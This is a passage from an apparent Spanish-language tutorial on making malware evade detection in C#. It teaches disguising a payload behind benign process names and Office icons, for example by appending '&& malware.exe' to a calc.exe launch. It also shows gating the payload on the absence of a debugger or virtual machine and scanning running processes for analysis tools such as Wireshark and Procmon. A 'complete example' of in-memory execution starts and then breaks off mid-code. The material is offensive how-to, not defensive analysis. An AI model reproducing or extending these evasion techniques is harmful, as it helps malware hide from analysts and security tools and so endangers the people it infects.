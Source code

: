 #### ✅ 4. **Uso de nombres y comportamientos benignos**

Cambiar el nombre del proceso, ventanas, iconos o comportamientos para parecer legítimos.

```csharp
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "calc.exe"; // pero en realidad se ejecuta otra cosa
psi.Arguments = "&& malware.exe";
```

💡 También se puede compilar el EXE con íconos de Word, Excel, etc.

---

#### ✅ 5. **Uso de macros C# para inyección tardía**

Ejecutar código solo después de verificar que el entorno es seguro (ej. no hay sandbox, debugger, etc.).

```csharp
if (!Debugger.IsAttached && !IsRunningInVM())
{
    // Ejecutar payload
}
```

Usar funciones para detectar si estás dentro de un entorno de análisis:

- ¿Hay procesos como `Wireshark`, `Procmon`, etc.?
- ¿La CPU es virtual?
- ¿La RAM es mínima?

---

### 💻 Instalación del entorno para practicar

1. **Visual Studio Community** (gratis):
   [https://visualstudio.microsoft.com/es/](https://visualstudio.microsoft.com/es/)

2. Crea un nuevo proyecto: `Consola (.NET Framework o .NET Core)`

3. Usa estas librerías:

   - `System.Reflection`
   - `System.Diagnostics`
   - `System.Runtime.InteropServices`

---

### ✅ Ejemplo completo (evasión por ejecución en memoria + detección de análisis)

```csharp
using System;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Runtime.InteropServices;

class Program
{
    static bool IsAnalysisEnvironment()
    {
        string[] tools = { "procmon", "wireshark", "fiddler", "ollydbg" };

        foreach (Process p in Process.GetProcesses())
        {
            foreach (string tool in tools)
            {
                if (p.ProcessName.ToLower().Contains(tool)) return true;
```